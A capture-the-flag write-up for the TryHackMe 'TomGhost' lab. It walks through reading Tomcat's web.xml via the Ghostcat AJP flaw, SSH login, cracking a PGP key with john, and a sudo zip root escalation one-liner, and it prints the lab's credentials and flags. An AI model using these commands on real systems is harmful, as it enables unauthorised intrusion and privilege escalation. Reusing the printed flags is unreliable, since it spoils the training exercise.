 # TomGhost (THM)

- https://tryhackme.com/room/tomghost
- March 4, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
2. 53/tcpwrapped
3. 161/tcp
4. 911/tcp
5. 5405/tcp
6. 8009/tcp ajp13 Apache Jserv
7. 8080/tcp http Apache Tomcat 9.0.30

- This apache has known exploit
- CNVD-2020-10487(CVE-2020-1938)
- exploit link - https://github.com/00theway/Ghostcat-CNVD-2020-10487/blob/master/ajpShooter.py

```sh
$ python ajpShooter.py http://$IP 8009 /WEB-INF/web.xml read

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Accept-Ranges: bytes
[<] ETag: W/"1261-1583902632000"
[<] Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
[<] Content-Type: application/xml
[<] Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>

```

## Get User Access

- Get account credential
  `skyfuck:8730281lkjlkjdqlksalks`
- there is ssh port open and try to enter ssh

```sh
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```

- get these two files which may also be credentials to local machine to crack
- tryhackme.asc is PGP Private Key
- to crack with john firt change asc file to john format

```sh
$ /opt/tools/john/run/gpg2john tryhackme.asc > forjohn.txt
$ john forjohn.txt
# tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
$ gpg --import tryhackme.asc
# enter passphrase: alexandru
$ gpg --decrypt credential.pgp
# gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
# gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
#       "tryhackme <stuxnet@tryhackme.com>"
# merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

- get merlin account

```sh
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

- merlin has sudo access to zip file without password

## Get Root Access

- from gtfobin for zip

```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

- get root access

```sh
root@ubuntu:/# cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
root@ubuntu:/# cat /root/root.txt
THM{Z1P_1S_FAKE}
```

---
